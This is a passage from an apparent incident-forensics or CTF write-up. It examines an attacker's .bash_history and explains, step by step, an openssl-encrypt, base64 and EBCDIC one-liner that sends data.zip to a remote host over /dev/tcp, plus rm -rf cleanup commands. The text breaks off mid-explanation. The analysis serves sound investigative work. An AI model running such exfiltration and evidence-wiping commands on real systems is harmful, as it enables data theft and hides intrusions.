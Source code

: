 ### Analysis of `.bash_history` File

The `.bash_history` file in `/var/www/` provides additional insights into the commands the attacker executed:

```bash
whoami
cd /opt/splunk/bin/scripts/
sudo rm -rf search.sh
sudo su
cd /home/johnnycage/
sudo mv /home/johnnycage/Documents/Important.pdf .
zip data.zip *
sudo openssl enc -aes-256-cbc -iv $(cut -c 1-32 <<< $(uname -r | md5sum)) -K $(cut -c 1-64 <<< $(date +%s | sha256sum)) -in data.zip | base64 | dd conv=ebcdic > /dev/tcp/192.168.222.130/8080
sudo rm -rf *
```

From the `.bash_history` and `auth.log`, we observe that the attacker:

1. Accessed elevated privileges using `su` and `sudo`.
2. Moved, encrypted, and attempted to exfiltrate `Important.pdf` to an external server.
3. Cleaned up evidence using `rm` commands on sensitive files.

Finally, using the known `iv` and `key` from point 10 in the logs:

```plaintext
iv 4fa17640b7dfe8799f072c65b15f581d
-K 3cabc6db78a034f69f16aa8986cf2e2cea05713b1e95ff9b2d80f6a71ae76b7d
```

we can search network traffic to recover the file exfiltrated.

---

## Recovering the Exfiltrated File from Network Traffic

The following command line demonstrates a multi-step operation using several tools—`openssl`, `cut`, `uname`, `md5sum`, `sha256sum`, `date`, `base64`, and `dd`. Here’s a detailed breakdown:

```bash
sudo openssl enc -aes-256-cbc -iv $(cut -c 1-32 <<< $(uname -r | md5sum)) -K $(cut -c 1-64 <<< $(date +%s | sha256sum)) -in data.zip | base64 | dd conv=ebcdic > /dev/tcp/192.168.222.130/8080
```

### Explanation of Each Step

1. **Superuser Privilege**:

   - `sudo`: Runs the command as a superuser, providing necessary permissions for access and encryption.

2. **Encryption with OpenSSL**:

   - `openssl enc -aes-256-cbc`: Encrypts data using the AES-256 algorithm in CBC (Cipher Block Chaining) mode.
   - `-iv $(cut -c 1-32 <<< $(uname -r | md5sum))`: Generates a 32-character (128-bit) initialization vector (IV) for encryption:
     - `uname -r` outputs the kernel version.
     - `md5sum` hashes this kernel version, creating a unique MD5 hash.
     - `cut -c 1-32` extracts the first 32 characters from this hash, producing the IV.
   - `-K $(cut -c 1-64 <<< $(date +%s | sha256sum))`: Specifies the encryption key:
     - `date +%s` outputs the current Unix timestamp (seconds since January 1, 1970).
     - `sha256sum` hashes the timestamp, creating a unique 64-character SHA-256 hash.
     - `cut -c 1-64` takes the full 64 characters, forming a 256-bit encryption key.
   - `-in data.zip`: Specifies `data.zip` as the input file for encryption.
